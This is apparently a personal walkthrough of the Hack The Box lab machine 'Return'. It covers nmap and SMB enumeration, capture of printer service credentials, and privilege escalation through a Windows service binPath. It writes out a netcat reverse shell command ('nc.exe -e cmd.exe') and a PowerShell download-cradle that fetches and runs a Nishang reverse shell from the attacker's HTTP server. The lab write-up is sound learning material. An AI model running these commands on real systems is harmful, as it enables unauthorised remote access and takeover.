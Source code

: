 # Return

This is my walk-through of the machine located at: [https://app.hackthebox.com/machines/Return](https://app.hackthebox.com/machines/Return).

nmap scan: `nmap -T4 -A 10.10.11.108 -oN return.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 15:01 EST
Nmap scan report for 10.10.11.108
Host is up (0.034s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-20 20:26:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/20%OT=53%CT=1%CU=36731%PV=Y%DS=2%DC=T%G=Y%TM=61C0E1
OS:40%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 25m06s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-20T20:27:06
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   39.17 ms 10.10.14.1
2   33.44 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

I then went on the IP Address and found this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1).png>)

I then ran **gobuster** on the IP Address: `gobuster dir -u 10.10.11.108 -w directory-list-2.3-big.txt -t 60`. I ended up with the following, which wasn't very helpful:

![](<../../.gitbook/assets/image (326) (1).png>)

I then tried found the nmap command to enumerate ldap: `nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 10.10.11.108`.The nmap script was taking a while, so I went to the walk-through to see where I had gotten off of track. I found out that I should use **enum4linux** in order to enumerate for SMB: `enum4linux -a 10.10.11.108`. I then found this information:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

The walk-through mentioned that we should enter our own IP Address in the **Server Address** section on the website. Using that I got a shell:

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

The walk-through then mentioned using the **evil-winrm** tool. I learned that, while I was able to overwrite the password for the svc-printer user, it would be overwritten by its own system. The walk-through pointed out that the password would be what is shown by the output of netcat connection previously:

![](<../../.gitbook/assets/image (334) (1).png>)

Looking around, I was able to find the **user.txt** flag in the Desktop of the svc-printer user:

![](<../../.gitbook/assets/image (335) (1) (1).png>)

I am not too familiar with Windows commands, so the walk-through mentioned running the `net user svc-printer` command:

![](<../../.gitbook/assets/image (344) (1) (1).png>)

Again, I had to view the write-up to see where to go from here. From the commands, you are uploading netcat onto the system, and then configuring netcat to be run and connect to your machine:

`upload /usr/share/windows-resources/binaries/nc.exe`&#x20;

`sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <YOUR-IP> 1234"`. After having a netcat listener setup on another tab, I was able to get a connection:

![](<../../.gitbook/assets/image (330) (1).png>)

The official walk-through got me to become root, however, I was not able to do anything on the machine. I then found this [write-up](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/) that helped me setup a proper shell. Here are the commands I used:

```
Download the Nishang script for Powershell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Have a netcat listener opened in another teminal window (using rlwrap):
rlwrap nc -lvnp <PORT>

Have a python3 http server online on another teminal window:
sudo python3 -m http.server 80

Upload that to the server with the evil-winrm terminal:
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

Restart the executable:
sc.exe stop VSS
sc.exe start VSS
```

I was then able to get the root.txt file:

![](<../../.gitbook/assets/image (332) (1) (1).png>)

